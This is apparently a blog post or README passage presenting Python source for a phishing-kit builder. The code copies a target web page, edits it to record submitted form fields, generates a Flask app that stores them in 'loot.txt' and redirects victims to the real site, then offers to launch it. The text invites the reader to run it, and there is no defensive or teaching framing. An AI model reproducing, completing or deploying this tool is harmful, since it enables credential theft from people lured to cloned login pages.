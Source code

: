 ```python
    return to_log


def generate_phisher(to_log, url):
    payload = open('template_app/app.py', 'r').read()
    payload = payload.replace('__TO_LOG__', str(to_log))
    payload = payload.replace('__REDIRECT_URL__', url)
    with open('app.py', 'w') as f:
        f.write(payload)


def main(args):
    url = args.url
    if not url.startswith('http://') and not url.startswith('https://'):
        url = 'http://' + url
    download_page(url, 'page.html')
    to_log = edit_page('page.html')
    os.remove('page.html')
    generate_phisher(to_log, url)
    output_dir = 'app'
    if os.path.exists(output_dir):
        shutil.rmtree(output_dir)
    os.makedirs(output_dir + '/templates')
    shutil.move('app.py', output_dir)
    shutil.move('index.html', output_dir + '/templates')
    shutil.copy('template_app/run.sh', output_dir)
    print "[*] Phishing page ready !"
    runnow = raw_input("Run now ? (y/n)")
    if runnow == 'y':
        os.system("app/run.sh")

if __name__ == '__main__':
    from argparse import ArgumentParser
    parser = ArgumentParser(description="Builds a phishing Flask application.")
    parser.add_argument('url', help="The URL of the page to copy")
    args = parser.parse_args()
    main(args)

```

Python conveniently offers a micro web framework whose main strengths are its lightness and the unlimited use cases that a couple of lines of codes can provide. If you compare this approach to a classic approach like using Java or C# you'll find that the memory usage is in the megabytes range as opposed to the gigabytes range of Java and C# which is a huge advantage if you're not planning on investing thousands of euros into entreprise hardware. 

try running it yourself: `python ./build.py`


```python
import time

from flask import Flask
from flask import abort
from flask import request
from flask import redirect
from flask import render_template
from flask.ext.script import Manager


app = Flask(__name__)
manager = Manager(app)


LOG_FILE = 'loot.txt'
```